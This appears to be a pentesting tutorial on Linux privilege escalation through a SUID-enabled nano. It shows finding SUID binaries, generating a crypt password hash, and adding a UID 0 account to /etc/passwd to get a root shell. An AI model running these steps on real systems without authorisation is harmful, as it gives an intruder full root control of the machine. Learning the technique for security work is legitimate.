



SUID Text Editors
Find SUID applicationsSUID → Set User ID
Usually a user can execute a file only if he have the permission to execute that particular file.
The SUID bit says that any user can execute this particular file with the permissions of the owner.
user@debian:~$ find /* -user root -perm -4000 -print 2>/dev/null
Particular attention to
text editors(Vi, Nano, Leafpad...) that have the SUID bit enabled! that means any user can edit any file on the system
if we take as example the file /usr/bin/nano.
------chmod u+s /bin/nano------ #add SUID bit to nano
------chmod u-s /bin/nano------ #remove SUID bit from nano
user@debian:~$ cd /usr/bin/
user@debian:~$ ls -l | grep nano
we can see that the third bit the owner is not set as ‘x’ but as ‘s’ ( this is the SUID bit)
This means that anyone who runs the
passwd file has the privileges of the root user
As a privileged user, we can edit for example the passwd file with root privileges using Nano.
This means that we can add a new root user to the system by adding a new user record to the passwd file.
user@debian:~$ nano /etc/passwd
To look how the record of the passwd file work go to the chapter:
Where are stored the password hashes in Linux We have to look at the
point 2. This is the password field, but if instead of the password there is a "x" means that the actual password is stored in the /etc/shadow file.
Because we have nano text editor with root privileges we can edit the file and add an account with in the password field a cryptographic hash from the password and a salt.
To create an hash from password “
password” and salt “
salt” with
DES algorithm.
If the salt is more of two characters like in this case is
truncated to two. Then the
two characters are saved at the start of the hash user@debian:~$ perl -e 'print crypt("password","salt"), "\n"' #perl
user@debian:~$ python -c 'import crypt; print crypt.crypt("password", "salt")' #python
sa3tHJ3/KuYvI * Because we have used the DES algorithm we had not need to specify the algorithm.
For example in the /etc/shadow file the hashes are made with SHA512 and to do that we have to specify it with $6$ like that:
perl -e 'print crypt("password","\$6\$salt\$") . "\n"'
user@debian:~$ nano /etc/passwd
add this line:
myUser:sa3tHJ3/KuYvI:0:0:root:/root:/bin/bash  Now we can close and save it CTRL+X
user@debian:~$ su myUser
----insert password: "password"-------
root@debian:~$ id #shell with root privileges
root@debian:~$ whoami